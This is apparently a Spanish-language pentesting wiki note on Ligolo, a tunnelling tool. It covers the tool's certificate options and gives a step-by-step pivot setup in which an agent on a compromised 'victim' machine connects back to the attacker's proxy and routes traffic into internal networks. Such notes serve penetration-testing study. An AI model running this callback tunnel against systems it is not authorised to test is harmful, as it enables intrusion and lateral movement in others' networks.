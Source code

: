 Herramienta programada en go usada para crear túneles a través de [[TCP]]/[[TLS]] para crear un túnel o pivote hacia otra conexión.

Ligolo tiene la capacidad de usar certificados para encriptar la comunicación, tiene integrada la capacidad de usar servidores de letsencrypt para que el lograr esto sea lo mas sencillo posible, obviamente, esta función depende de una conexión a internet activa.
## Conexión a Internet disponible
En el caso de tener conexión a internet, es posible dar el parámetro `-autocert` para que ligolo gestione por si mismo el uso de certificados
## Conexión a Internet no disponible
En el caso de no tener conexión a internet, es posible crear certificados propios y alimentar a ligolo con estos o que ligolo genere sus propios certificados con `-selfcert`, esto ultimo no es recomendado por lo susceptible que es a ataques [[MITM]]
# Ejemplo de uso
Se instala el agente de ligolo en una maquina comprometida y en la maquina host se usa
`sudo ip tuntap add user username mode tun ligolo`
`sudo ip link set ligolo up`
`(ruta ligolo)/proxy -autocert`
Una vez hecho lo anterior, se ejecutan los siguientes comandos en la maquina victima:
`./agent -connect (ip):11601`
En el caso de que se este usando `-selfcert` en la maquina host, se debe agregar `-ignore-cert`
Con esto, se inicia el agente y se conecta al servidor ligolo en la maquina host, a la que se debe ir y usar:
`session`
Esto es usado para listar las sesiones activas de ligolo, y se debe seleccionar la deseada, en otra terminal de la maquina host, se debe usar:
`sudo ip route add (ip red a la que se desea pivotar)/(mascara) dev ligolo`
Luego de esto, se debe volver a la sesión de ligolo y usar el comando
`start`
Con esto ya queda establecido el túnel a las redes a las que la maquina victima tenga acceso